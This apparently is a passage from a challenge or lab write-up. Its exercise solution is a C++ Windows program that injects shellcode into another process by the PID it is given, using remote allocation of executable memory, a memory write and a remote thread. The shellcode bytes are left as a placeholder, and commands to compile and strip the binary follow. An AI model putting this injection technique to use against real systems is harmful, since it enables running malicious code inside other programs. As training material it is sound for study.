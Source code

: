 
## Practical

---

For the resolution of this exercise, I propose this script:

```cpp
#include <windows.h>

int main(int argc, char* argv[]) {
    // minimal shellcode buffer
    unsigned char buf[] = { /* your shellcode bytes here */ };

    // meaningless handles/pointers
    HANDLE h1;
    HANDLE h2;
    PVOID  p1;

    // open target process
    h1 = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    // allocate RWX memory in remote process
    p1 = VirtualAllocEx(h1, NULL, sizeof buf,
                       MEM_RESERVE | MEM_COMMIT,
                       PAGE_EXECUTE_READWRITE);
    // write shellcode there
    WriteProcessMemory(h1, p1, buf, sizeof buf, NULL);
    // spin up a thread at that address
    h2 = CreateRemoteThread(h1, NULL, 0,
                            (LPTHREAD_START_ROUTINE)p1,
                            NULL, 0, NULL);
    // clean up
    CloseHandle(h1);

    return 0;
}

```

Now, we need to compile and strip it:

```bash
x86_64-w64-mingw32-g++ -O2 -static -s -o challenge-8.exe challenge-8.cpp
strip --strip-all challenge-8.exe
```

Once we got our executable, we can submit it at the page:

![[Pasted image 20250521130447.png]]

Once we upload the file:

![[Pasted image 20250521130536.png]]
